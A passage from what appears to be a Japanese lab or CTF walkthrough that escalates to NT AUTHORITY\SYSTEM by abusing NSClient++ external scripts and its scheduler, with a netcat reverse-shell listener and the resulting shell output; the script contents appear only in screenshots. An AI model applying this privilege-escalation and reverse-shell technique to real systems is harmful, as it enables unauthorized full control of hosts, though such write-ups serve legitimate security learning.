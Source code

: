 kaliで通信を受け取れるように、netcatで待ち受けておきます。

```
kali@kali:~$ sudo nc -lvnp 443
[sudo] kali のパスワード:
listening on [any] 443 ...
```
次は、scriptとschedulerを設定して行きましょう。  
Settings > external scripts > scripts > Add new  
を選択して、画像のように入力してください。  

![a.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d9ec0d77-6d02-4352-6fe3-bda9aa90792e.png)

scheduler > schedules > Add new  
を選択して、画像のように入力してください。  

![b.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d3727ff6-642b-5f33-b382-d4c5b0380d00.png)

最後にスクリプトを実行します。  
Queries > check_taskched > CheckTaskSched > Module is loaded  

![c.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/344dbcb3-9ab3-9c15-f254-e9fa86ff48e3.png)

![d.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/596d2498-98b6-60d0-cf12-40402cf551be.png)

実行すると待ち受けていたkaliのnetcatのほうにシェルが返ってきます。  

```
C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

無事、NT AUTHORITY\SYSTEMが得られました。  
お疲れ様でした。

